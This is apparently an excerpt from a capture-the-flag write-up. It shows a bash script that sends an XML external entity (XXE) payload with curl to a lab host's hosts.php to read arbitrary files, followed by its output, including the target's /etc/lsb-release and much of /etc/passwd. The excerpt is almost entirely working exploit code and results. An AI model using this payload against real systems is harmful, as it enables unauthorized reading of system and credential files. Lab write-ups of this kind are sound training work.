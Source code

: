 `xxe_get_file.sh`:

```

#!/bin/bash

if [ "$#" == "1" ]; then
    file=$1
else
    echo "$0 [file]"
    exit 1
fi

exploit="<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM \"$file\"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>"

echo "$exploit" > tmp
curl -s -X POST -d @tmp http://10.10.10.78/hosts.php -x http://127.0.0.1:8080 | tee $(basename "$file")
rm tmp

```

```

root@kali# ./xxe_get_file.sh /etc/lsb-release

There are 4294967294 possible hosts for DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"

```

Now grab `/etc/passwd` to reveal accounts on the box:

```

news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
```